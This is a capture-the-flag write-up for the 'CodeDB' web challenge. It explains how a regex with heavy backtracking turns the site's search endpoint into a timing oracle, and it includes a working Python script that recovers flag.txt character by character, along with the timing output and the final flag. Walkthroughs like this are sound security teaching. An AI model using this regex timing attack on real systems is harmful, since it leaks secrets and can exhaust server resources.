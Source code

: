 ```yaml
---
created: 2025-01-11T17:14
updated: 2025-01-12T19:00
title: CodeDB
solves: 52
points: 388
---
```


We need to somehow access flag.txt which is not accessible via `/view/:fileName` nor via the worker.

A lot of effort was spent on trying to somehow prototype pollute the worker, but in the end, I used timing attack.

The regex payload.

```
/(^uoftctf\{w.*$)|(^u(.*?)*o(.*?)*f(.*?)*t(.*?)*c(.*?)*t(.*?)*f(.*?)*\{(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*~$)/
```

The idea is simple, the regex can exit early if the flag prefix + the character guessed is correct. Otherwise it would have to execute the super time consuming regex on the right side of the `|`.

- `(^uoftctf\\{w.*$)` simple match for the flag string.
- `(.*?)*` these will cause the regex to backtrack constantly, slowing everything down.

I will guess one character at a time, taking the one that takes least amount of time to respond.

```python
from statistics import mean
import time
import string
import random
import requests
from tqdm import tqdm

target = "http://34.162.172.123:3000/search"
# target = "http://localhost:3000/search"


def try_flag(flag):
    s = time.perf_counter()
    res = requests.post(target, json={"query": flag, "language": None})
    e = time.perf_counter() - s
    return e


def check(prefix):
    def escape_special_chars(s):
        return ['\\' + c if c in string.punctuation else c for c in s]
    center = ''.join(f"{c}(.*?)*" for c in escape_special_chars(prefix))
    flags = [
        (f"/(^{''.join(escape_special_chars(prefix+c))}.*$)|(^{center}(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*~$)/", prefix+c) for c in string.printable
    ]
    flags = [flag for flag in flags for _ in range(1)]
    random.shuffle(flags)
    results = []
    for flag, _flag in tqdm(flags, desc="Processing flags"):
        time = try_flag(flag)
        results.append((time, _flag))
    flag_times = {}
    for time_taken, flag in results:
        if flag not in flag_times:
            flag_times[flag] = []
        flag_times[flag].append(time_taken)

    results = [(flag, min(times), mean(times), max(times)) for flag, times in flag_times.items()]
    results.sort(key=lambda x: x[1])
    for f, mn, md, mx in results[:5]:
        print(f"{f}: {mn} {md} {mx}")
    diff = results[1][1] - results[0][1]
    print(f"time diff = {diff}")
    print(f"final = {results[0][0]}")
    return results[0][0]


if __name__ == "__main__":
    prefix = 'uoftctf{'
    while True:
        prefix = check(prefix)
        print(prefix)
```

I originally wanted to run each payload a few times but the regex was so slow that it wasn't needed.

As you can see, the difference in time is huge.

```
uoftctf{why_15: 0.141611400002148 0.141611400002148 0.141611400002148
uoftctf{why_1z: 1.058887399995001 1.058887399995001 1.058887399995001
uoftctf{why_1+: 1.05915049999021 1.05915049999021 1.05915049999021
uoftctf{why_1@: 1.0593788999831304 1.0593788999831304 1.0593788999831304
uoftctf{why_1b: 1.0597369000024628 1.0597369000024628 1.0597369000024628
time diff = 0.917275999992853
final = uoftctf{why_15
```

The difference only gets larger as the flag prefix increase in size.

```
uoftctf{why_15_my_4pp_l4661n6: 0.10187479999149218 0.10187479999149218 0.10187479999149218
uoftctf{why_15_my_4pp_l4661nQ: 1.057343899999978 1.057343899999978 1.057343899999978
uoftctf{why_15_my_4pp_l4661n!: 1.0575902000127826 1.0575902000127826 1.0575902000127826
uoftctf{why_15_my_4pp_l4661n\: 1.0577397999877576 1.0577397999877576 1.0577397999877576
uoftctf{why_15_my_4pp_l4661nb: 1.0579903999750968 1.0579903999750968 1.0579903999750968
time diff = 0.9554691000084858
```

```flag
uoftctf{why_15_my_4pp_l4661n6_50_b4dly??}
```

Hrm, maybe this was the intended solution?
